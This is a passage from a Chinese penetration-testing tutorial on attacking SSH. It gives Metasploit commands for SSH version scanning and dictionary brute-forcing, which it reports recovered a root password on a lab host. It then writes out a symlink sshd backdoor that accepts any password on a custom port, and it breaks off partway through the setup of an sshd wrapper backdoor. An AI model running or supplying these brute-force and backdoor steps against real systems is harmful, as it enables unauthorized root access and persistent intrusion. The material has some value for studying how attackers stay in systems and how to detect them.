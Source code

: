 图14 openssh用户枚举

**（2）SSH版本扫描**

查看远程主机的SSH服务器版本信息，命令如下：

```bash
use auxiliary/scanner/ssh/ssh_version
set rhosts 192.168.157.147
run
```

执行效果如图15所示，分别对centos服务器地址192.168.157.147和kali linux 地址192.168.157.144进行扫描，可以看出一个是SSH-2.0-OpenSSH_5.8p1Debian-1ubuntu3，另外一个是SSH-2.0-OpenSSH_7.5p1 Debian-10，看到第一个版本，第一时间就可以想到如果拿到权限可以安装ssh后门。

![15.png](https://image.3001.net/images/20180108/15153725082612.png!small)  

图15扫描ssh版本信息

**（3）SSH暴力破解**

ssh暴力破解模块“auxiliary/scanner/ssh/ssh_login”可以对单机进行单用户，单密码进行扫描破解，也可以使用密码字典和用户字典进行破解，按照提示进行设置即可。下面使用用户名字典以及密码字典进行暴力破解：

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.17.147
set PASS_FILE /root/pass.txt
set USER_FILE /root/user.txt
run
```

如图16所示，对IP地址192.168.17.147进行暴力破解，成功获取root账号密码，网上有人写文章说可以直接获取shell，实际测试并否如此，通过sessions -l可以看到msf确实建立会话，但切换（sessions -i 1）到会话一直没有反应。   

![16.png](https://image.3001.net/images/20180108/15153725289773.png!small)  

图16使用msf暴力破解ssh密码

## 七、ssh后门

### 1. 软连接后门

```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su-oPort=33223;
```

经典后门使用ssh root@x.x.x.x -p 33223直接对sshd建立软连接，之后用任意密码登录即可。

但这隐蔽性很弱，一般的rookit hunter这类的防护脚本可扫描到。

### 2.SSH Server wrapper后门

**（1）复制sshd到bin目录**

```bash
cd /usr/sbin
mv sshd ../bin
```
